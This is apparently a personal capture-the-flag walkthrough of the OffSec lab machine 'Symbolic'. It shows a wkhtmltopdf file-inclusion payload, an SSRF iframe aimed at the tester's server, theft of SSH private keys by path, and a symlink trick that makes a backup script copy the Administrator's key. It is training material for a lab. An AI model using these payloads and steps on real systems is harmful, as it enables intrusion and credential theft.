









---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Symbolic

## Enumeration

### Nmap

As always started with an Nmap scan:

```
# Nmap 7.94SVN scan initiated Wed May 29 14:08:59 2024 as: nmap -Pn -A -p- -o ./enumeration/external_tcp_all.nmap 192.168.246.177
Nmap scan report for 192.168.246.177
Host is up (0.058s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 3e:40:e2:ef:21:ea:c1:77:b6:14:a3:f7:04:59:45:28 (RSA)
|   256 f8:fb:e3:c6:16:3a:e2:62:d0:e2:ae:d4:f2:9e:6f:6d (ECDSA)
|_  256 94:5e:97:ad:f9:0f:81:b6:6b:3b:bd:98:43:c0:0d:6a (ED25519)
80/tcp open  http    Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/8.0.7
|_http-title: WebPage to PDF
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 4 hops

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   56.66 ms 192.168.45.1
2   56.62 ms 192.168.45.254
3   57.75 ms 192.168.251.1
4   58.04 ms 192.168.246.177

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May 29 14:11:41 2024 -- 1 IP address (1 host up) scanned in 161.83 seconds
```

### Port 80

I navigated to the page at port 80 and found this:

<figure><figcaption><p>Port 80 landing page</p></figcaption></figure>

The link at the bottom goes to the homepage for [`wkhtmltopdf`](https://wkhtmltopdf.org/). which is an open source tool to render HTML as a PDF.

Also worth noting the "by p4yl0ad" which likely indicates a username of the creator.

## Foothold

Since port 80 is really the only helpful thing open I start there.

### wkhtmltopdf

#### LFI

Quickly find an [LFI for `wkhtmltopdf`](https://www.virtuesecurity.com/kb/wkhtmltopdf-file-inclusion-vulnerability-2/). It allows constructing of the URL to include local files. I decided to test by attempting to leak `C:\output.txt` (I have seen this file on most Windows machines in the labs). I URL encoded the path and then submitted it via Burp:

```
C%3A%5Coutput.txt
```

<figure><figcaption><p>LFI via wkhtmltopdf</p></figcaption></figure>

The presence of the Location header in the response indicates the attempt was successful. When I navigate to that page I do indeed find the `C:\output.txt` as a PDF.

#### SSRF

The setup also appears to be vulnerable to SSRF as described [here](https://cyberguy0xd1.medium.com/initial-access-via-pdf-file-silently-654d051c3fc0).

I created a `frg.html` file that contained an iframe element pointing back to my web server:


```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
    <section>
        <p>This is to be printed to PDF</p>
    </section>
    <iframe src="http://192.168.45.234/tmp/test.txt" width="1000" height="2000"></iframe>
</body>
</html>
```


When my `frg.html` was requested via the page I would see 2 requests in the Apache logs:

<figure><figcaption><p>Apache logs validating SSRF</p></figcaption></figure>

The first is the script being fetched the initial time and the second is the iframe being rendered. I am not sure what to do with this. [This blog](https://medium.com/@parab500/part-2-exploiting-ssrf-vulnerability-to-gain-unauthorized-access-to-aws-data-c8e88fd1a724) describes using it to leak AWS information from another source but there is no third party from which to leak information in this case.

### Leaking Credentials

I got stuck here for awhile. My first instinct was to attempt to leak SSH keys as SSH is open and it would be the easiest method. I tried using the default C:\\\<user>\\.ssh\id\_rsa path for some usernames:

* Administrator
* offsec
* apache

I thought about brute-forcing a wordlist somehow but then I remembered the "by p4yl0ad" on the landing page. I tried that next:

```
C:\Users\p4yl0ad\.ssh\id_rsa
```

<figure><figcaption></figcaption></figure>

I copy it to a file, set permissions to 400 and use:

```bash
ssh -i id_rsa p4yl0ad@symbolic.offsec
```

* At first I was getting an error because I forgot to add a trailing newline to the `id_rsa` file when I copy/pasted from the PDF. Adding the newline fixed it.

At this point I had user access as `p4yl0ad`.

## Privilege Escalation

With Windows I am finding it better to just do some manual enumeration before anything automated. So I hold off on winPEAS for now. Starting with the basics of who my shell is running as:

<figure><figcaption><p>Initial privileges and memberships</p></figcaption></figure>

I check the `C:\` drive:

```
p4yl0ad@SYMBOLIC C:\Users\p4yl0ad>dir C:\ 
 Volume in drive C has no label. 
 Volume Serial Number is 5C30-DCD7

 Directory of C:\

03/10/2023  11:59 AM    <DIR>          backup
05/30/2024  10:20 AM             2,673 output.txt
05/28/2021  04:20 AM    <DIR>          PerfLogs
03/10/2023  11:59 AM    <DIR>          Program Files
05/28/2021  03:53 AM    <DIR>          Program Files (x86)
03/10/2023  11:48 AM    <DIR>          Users
11/19/2021  12:12 AM    <DIR>          Windows
05/28/2021  06:04 AM    <DIR>          Windows10Upgrade
03/10/2023  11:58 AM    <DIR>          wkhtml
02/29/2024  04:00 AM    <DIR>          xampp
               1 File(s)          2,673 bytes
               9 Dir(s)   7,995,002,880 bytes free
```

Immediately I find the `C:\backup` interesting so I go check it out:

```shell-session
p4yl0ad@SYMBOLIC C:\Users\p4yl0ad>cd C:\backup

p4yl0ad@SYMBOLIC C:\backup>dir 
 Volume in drive C has no label. 
 Volume Serial Number is 5C30-DCD7

 Directory of C:\backup

03/10/2023  11:59 AM    <DIR>          .
03/10/2023  11:59 AM    <DIR>          ..
10/11/2021  09:11 PM               207 backup.ps1
05/30/2024  11:17 AM    <DIR>          logs
               1 File(s)            207 bytes
               3 Dir(s)   7,996,272,640 bytes free

p4yl0ad@SYMBOLIC C:\backup>dir logs\ 
 Volume in drive C has no label. 
 Volume Serial Number is 5C30-DCD7

 Directory of C:\backup\logs

05/30/2024  11:17 AM    <DIR>          .
05/30/2024  11:17 AM    <DIR>          ..
04/17/2024  10:23 AM                73 04-17-2024_10_27_34
04/17/2024  10:23 AM                73 04-17-2024_15_50_53
04/17/2024  10:23 AM                73 04-17-2024_15_51_53
04/17/2024  10:23 AM                73 04-17-2024_15_52_53
...
04/17/2024  10:23 AM                73 04-17-2024_10_27_39
...
```

I examine the `backup.ps1` script:


```powershell
$log = "C:\xampp\htdocs\logs\request.log" 
$backup = "C:\backup\logs"

while($true) {
        # Grabbing Backup
        copy $log $backup\$(get-date -f MM-dd-yyyy_HH_mm_s)
        Start-Sleep -s 60
}
```


The script appears to copy the `C:\xampp\htdocs\logs\request.log` file into the `C:\backup\logs` directory, renaming it with a time-stamp. This happens every 60 seconds.

I check the directory and find I have full control:

```
p4yl0ad@SYMBOLIC C:\backup>icacls C:\xampp\htdocs\logs\
C:\xampp\htdocs\logs\ SYMBOLIC\p4yl0ad:(I)(OI)(CI)(F)
                      NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
                      BUILTIN\Administrators:(I)(OI)(CI)(F)
                      BUILTIN\Users:(I)(OI)(CI)(RX)
                      BUILTIN\Users:(I)(CI)(AD)
                      BUILTIN\Users:(I)(CI)(WD)
                      CREATOR OWNER:(I)(OI)(CI)(IO)(F)

Successfully processed 1 files; Failed processing 0 files
```

So with all of this in mind a potential vector becomes clear:

1. Create a [symbolic link](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-10/security/threat-protection/security-policy-settings/create-symbolic-links) from some sensitive file to the `request.log` file
2. Wait for backup to happen
3. Read contents of linked file from backup copy

The machine has SSH open and I got in by leaking the p4yl0ad user's key from the default location. Perhaps that will work again. I decide to target the Administrator SSH key at:

```
C:\Users\Administrator\.ssh\id_rsa
```

### Creating a Symbolic Link

I begin researching creating a symbolic link from the command line. I first find `mklink` which is Microsoft's tool for creating links.

#### mklink

The command structure for `mklink` is:

```
mklink \link.file \source.file
```

I attempt to use this to create a link to `request.log`:

<figure><figcaption><p>Operation failed</p></figcaption></figure>

Unfortunately I have to be an Administrator to do this. Back to Google.

#### Symbolic Link Tools

Google to the rescue in 2 ways. It turns out back in the day ProjectZero (a Google initiative) did some research and created some Windows [symbolic link tools](https://github.com/googleprojectzero/symboliclink-testing-tools). Among them was one called [`CreateSymlink.exe`](https://github.com/googleprojectzero/symboliclink-testing-tools/tree/main/CreateSymlink). It does what the name suggests but its [README](https://github.com/googleprojectzero/symboliclink-testing-tools/blob/main/CreateSymlink/CreateSymlink\_readme.txt) indicates it does not necessarily need Administrator privileges.

One important note from the README:


```
...
You can only create symlinks in directories which are empty, this is a limitation on the procesing of junction points, so you can't just drop into %TEMP%. However if you can at least delete the files from the directory you should still be able to do it.
...
```


ProjectZero provided a releases page with a compiled version of the tool. I grab it and host it via Apache. It is then downloaded to the victim machine with `curl` or `Invoke-WebRequest`.

I run it with the full paths to create a link:

<figure><figcaption><p>Symlink created</p></figcaption></figure>

I set a timer for 2 minutes and wait to ensure the key is copied at least once.

I then navigate to C:\backup and look through the recent results:

<figure><figcaption><p>Administrator SSH key</p></figcaption></figure>

I was then able to use this to SSH into the machine:

<figure><figcaption><p>SSH Administrator Session</p></figcaption></figure>

I should note I had some issues with the file at first. I was getting errors that read "`Load key "id_rsa": error in libcrypto`" I found a thread mentioning they had issues when they copied a key to a clipboard and then pasted it in a file. First there was an issue with no trailing newline but I ensured mine had that and the issue persisted.

Ultimately I just went back to the p4yl0ad SSH session and uploaded the actual "log" file backup. `chmod`-ed it to `400` and it worked.

#### Machine Bug

I think the VM has a bug or something because the exact commands were in the PowerShell history found by winPEAS before I rooted the box:

<figure><figcaption><p>Exact commands in history</p></figcaption></figure>

## Learned

* **Slow down and consider the implications of enumeration**. I quickly found the C:\backup drive and its script and logs but it took me a long time to think about creating a symlink to trying the machine into leaking a file via that mechanism.
